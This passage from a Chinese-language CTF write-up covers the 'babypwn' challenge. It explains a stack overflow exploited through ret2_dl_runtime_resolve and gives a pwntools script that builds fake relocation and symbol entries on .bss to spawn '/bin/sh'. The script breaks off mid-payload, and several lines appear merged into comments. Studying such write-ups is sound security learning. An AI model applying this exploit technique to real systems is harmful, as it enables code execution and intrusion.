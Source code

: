 ![4](/img/2019-04-23/4.png)
#### babypwn
直接`read`读入`0x100`直接造成栈溢出，但是这题的难点在于没有泄露函数，不能直接`return to libc`，所以这里利用`ret2_dl_runtime_resolve`，之前做过0ctf2018的babystack 跟这个类似，先是尝试了`roputils`库实现，后来发现有点问题总是调不对，后来直接手工干了一波。操作如下：
```python
# -*- coding:utf-8 -*-
from pwn import *
context.log_level = 'debug'
#p = process('./pwn')
p = remote(ip,port)
elf = ELF('./pwn')
read_plt = elf.plt['read']
alarm_plt = elf.plt['alarm']
pop_ebp_ret = 0x080485db
ppp_ret = 0x080485d9
pp_ebp_ret = 0x080485da
leave_ret = 0x08048448
stack_size = 0x800
bss_addr = 0x0804a040 #readelf -S babystack | grep ".bss" base_stage = bss_addr + stack_size
plt_0 = 0x8048380 # objdump -d -j .plt babystack
rel_plt = 0x804833c # objdump -s -j .rel.plt babystack index_offset = (base_stage + 28) - rel_plt
alarm_got = elf.got['alarm']
print "alarm_got: ",hex(alarm_got)
print "alarm_plt: ",hex(alarm_plt)
print "read_plt: ",hex(read_plt)
dynsym = 0x80481DC
dynstr = 0x804827C
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = index_dynsym << 8 | 0x7
fake_reloc = p32(alarm_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)
payload = 'a'*0x28 + p32(bss_addr)
payload += p32(read_plt) + p32(leave_ret) + p32(0) + p32(bss_addr) + p32(36)
#raw_input("go:")
p.send(payload)
#fake stack 1 bss_addr
payload1 = 'aaaa' #pop ebp
payload1 += p32(read_plt) + p32(ppp_ret) + p32(0) + p32(base_stage) + p32(100) payload1 += p32(pop_ebp_ret) + p32(base_stage) #fake stack again
payload1 += p32(leave_ret) #leave: mov esp,ebp; pop ebp
p.send(payload1)
cmd = "/bin/sh"
#fake stack 2 base_stage
payload2 = 'bbbb'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'aaaa'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
```